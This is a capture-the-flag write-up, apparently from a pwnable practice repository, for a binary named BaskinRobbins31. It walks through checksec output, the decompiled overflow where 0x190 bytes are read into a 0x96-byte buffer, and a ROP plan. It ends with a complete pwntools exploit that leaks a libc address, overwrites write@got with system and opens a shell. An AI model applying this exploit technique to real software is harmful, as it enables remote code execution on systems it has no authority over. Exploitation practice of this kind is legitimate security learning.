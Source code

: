 # BaskinRobbins31

```bash
checksec ./BaskinRobbins31
[*] '/home/ubuntu/Desktop/Pwnable/rop/BaskinRobbins31/BaskinRobbins31'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

This binary has `NX-bit` and `Partical RELRO`.

And here is disassemled code.

```c
signed __int64 __fastcall your_turn(_DWORD *a1)
{
  signed __int64 result; // rax
  char s; // [rsp+10h] [rbp-B0h]
  size_t n; // [rsp+B0h] [rbp-10h]
  int v4; // [rsp+BCh] [rbp-4h]

  v4 = 0;
  memset(&s, 0, 0x96uLL);
  puts("How many numbers do you want to take ? (1-3)");
  n = read(0, &s, 0x190uLL);
  write(1, &s, n);
  putchar(10);
  v4 = strtoul(&s, 0LL, 10);
  if ( check_decision(v4, 0LL) )
  {
    *a1 -= v4;
    result = 1LL;
  }
  else
  {
    puts("Don't break the rules...:( ");
    result = 0LL;
  }
  return result;
}
```

I can find vulunablity to use rop. `s` is `0x96` bytes array, and `n = read(0, &s, 0x190uLL);` this is vulunable code.

`s` is in `[ebp - 0xB0]`, so I give dummy `0xB0` bytes, and `8 bytes sfp`. After that, I make ROP code.

```c
write(1, read@got, 8);      // leak read@got
read(0, bss, 8);            // write '/bin/sh'
read(0, write@got, 8);      // overwrite write@got
write('/bin/sh');           // call system by write@got
```

And I find gadget, and they give me a full gadget.

```asm
rp++ -f ./BaskinRobbins31 -r 3 | grep "pop rdi"
0x0040087a: pop rdi ; pop rsi ; pop rdx ; ret  ;  (1 found)
0x00400bc3: pop rdi ; ret  ;  (1 found)
```

## exploit.py

```python
from pwn import *

context.log_level = 'debug'

binary = ELF('./BaskinRobbins31')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

read_plt = binary.plt['read']
read_got = binary.got['read']
write_plt = binary.plt['write']
write_got = binary.got['write']

bss = binary.bss()

system_offset = libc.symbols['system']
read_offset = libc.symbols['read']

read_system_offset = read_offset - system_offset

pppr = 0x0040087a # pop rdi; pop rsi; pop rdx; ret

payload = 'a'*0xb0 + 'b'*8
payload += p64(pppr) + p64(1) + p64(read_got) + p64(8) + p64(write_plt)
payload += p64(pppr) + p64(0) + p64(bss) + p64(8) + p64(read_plt)
payload += p64(pppr) +p64(0) + p64(write_got) + p64(8) + p64(read_plt)
payload += p64(pppr) + p64(bss) + 'b'*8 + 'c'*8 + p64(write_plt)

p = process('./BaskinRobbins31')

p.recv()
p.sendline(payload)
leak_read = u64(p.recv()[-8:])
log.info('leaked read: ' + hex(leak_read))
leak_system = leak_read - read_system_offset
log.info('leaked system: ' + hex(leak_system))

p.sendline('/bin/sh')
p.sendline(p64(leak_system))
p.interactive()
```